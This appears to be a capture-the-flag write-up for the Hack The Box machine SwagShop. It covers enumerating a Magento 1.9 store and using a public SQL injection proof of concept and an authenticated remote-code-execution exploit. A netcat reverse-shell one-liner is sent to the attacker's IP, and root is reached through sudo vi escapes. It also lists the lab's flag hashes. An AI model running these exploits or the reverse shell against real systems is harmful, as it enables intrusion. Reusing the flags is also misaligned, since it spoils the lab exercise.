 Machine: https://app.hackthebox.com/machines/188

IP: 10.10.10.140

Add swagshop.htb to /etc/hosts
# Enumeration

Port 80:

/media
/includes
/lib
/app
/js
  `SYNTAX: index.php/x.js?f=dir1/file1.js,dir2/file2.js`
/shell
/skin
/var
  /var/package/
    We see redis file, so this might use redis
/errors

http://swagshop.htb/mage
```
#!/bin/sh

# REPLACE with your PHP5 binary path (example: /usr/local/php5/bin/php )
#MAGE_PHP_BIN="php"

MAGE_PHP_SCRIPT="mage.php"
DOWNLOADER_PATH='downloader'

# initial setup
if test "x$1" = "xmage-setup"; then
    echo 'Running initial setup...'

    if test "x$2" != "x"; then
        MAGE_ROOT_DIR="$2"
    else
        MAGE_ROOT_DIR="`pwd`"
    fi

    $0 config-set magento_root "$MAGE_ROOT_DIR"
    $0 config-set preferred_state beta
    $0 channel-add http://connect20.magentocommerce.com/community
    exit
fi

# check that mage pear was initialized

if test "x$1" != "xconfig-set" &&
  test "x$1" != "xconfig-get" &&
  test "x$1" != "xconfig-show" &&
  test "x$1" != "xchannel-add" &&
  test "x`$0 config-get magento_root`" = "x"; then
    echo 'Please initialize Magento Connect installer by running:'
    echo "$0 mage-setup"
    exit;
fi

# find which PHP binary to use
if test "x$MAGE_PHP_BIN" != "x"; then
  PHP="$MAGE_PHP_BIN"
else
  PHP=php
fi


# get default pear dir of not set
if test "x$MAGE_ROOT_DIR" = "x"; then
    MAGE_ROOT_DIR="`pwd`/$DOWNLOADER_PATH"
fi

exec $PHP -C -q $INCARG -d output_buffering=1 -d variables_order=EGPCS \
    -d open_basedir="" -d safe_mode=0 -d register_argc_argv="On" \
    -d auto_prepend_file="" -d auto_append_file="" \
    $MAGE_ROOT_DIR/$MAGE_PHP_SCRIPT "$@"
```

http://swagshop.htb/index.php/admin

![image](https://github.com/Leng-Phirun/OSCP_Prep_TJNull/assets/100512862/3ab466a8-501b-43d8-bba3-e2f2fcfa7fde)

# Exploitation

https://raw.githubusercontent.com/joren485/Magento-Shoplift-SQLI/master/poc.py

Working SQLi exploit

Check http://10.10.10.140/admin with creds ypwq:123 

After logged in, we can see version of Magento at the bottom

http://swagshop.htb/index.php/admin/dashboard/index/key/e771a1a9f7b4dca0b24bd5a631fc9170/

`Magento ver. 1.9.0.0`

Using searchsploit, this is the most interesting one

![image](https://github.com/Leng-Phirun/OSCP_Prep_TJNull/assets/100512862/22716aea-ee06-4f37-9390-c7c2068bbf74)

But for the script to work, we need to modify 3 of these variables

```
username = ''
password = ''
php_function = 'system'  # Note: we can only pass 1 argument to the function
install_date = 'Sat, 15 Nov 2014 20:27:57 +0000'  # This needs to be the exact date from /app/etc/local.xml
```
TO

```
username = 'ypwq'
password = '123'
php_function = 'system'  # Note: we can only pass 1 argument to the function
install_date = 'Wed, 08 May 2019 07:23:09 +0000'  # This needs to be the exact date from /app/etc/local.xml
```

To get the `install_date`:

```
curl -s http://10.10.10.140/app/etc/local.xml | grep date
<date><![CDATA[Wed, 08 May 2019 07:23:09 +0000]]></date>
```

Running the exploit

![image](https://github.com/Leng-Phirun/OSCP_Prep_TJNull/assets/100512862/07e8170f-ecae-4807-bf4c-4346f0a12ceb)


`mechanize` is a scriptable browser, and it’s complaining that there’s not login form with a password field. That’s because it’s trying to log into the base of the site. I’ll run it again, this time with the admin login page:

So we just need to provide login path of admin panel

We have RCE.

![image](https://github.com/Leng-Phirun/OSCP_Prep_TJNull/assets/100512862/464422e8-eef5-4246-8d98-c6bf017783c1)

Exploit:

`python2 37811.py 'http://swagshop.htb/index.php/admin' "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.12 1234 >/tmp/f"

Got the shell

![image](https://github.com/Leng-Phirun/OSCP_Prep_TJNull/assets/100512862/814207aa-5a44-4b79-bac1-24b19c7247a1)

# Post-Exploitation

## Shell as www-data

![image](https://github.com/Leng-Phirun/OSCP_Prep_TJNull/assets/100512862/fc6f5206-f059-4edc-b31e-549c9074d1d6)

We can read root flag using `vi`

`sudo /usr/bin/vi /var/www/html/../../../root/root.txt`

![image](https://github.com/Leng-Phirun/OSCP_Prep_TJNull/assets/100512862/13ea87b3-533f-4960-a8de-df690d3f3c8e)

We can also use GTFO to get shell

`sudo /usr/bin/vi /var/www/html/../../../root/root.txt`

Then
```
:set shell=/bin/bash
:shell
```

Another trick from GTFOBins also works

`sudo vi /var/www/html/a -c ':!/bin/sh'`

user.txt  918c2be1a0ab5e55f4587526278dc7cf
root.txt  9ed050abeb8b5f106896956296156d21

# Beyond Root


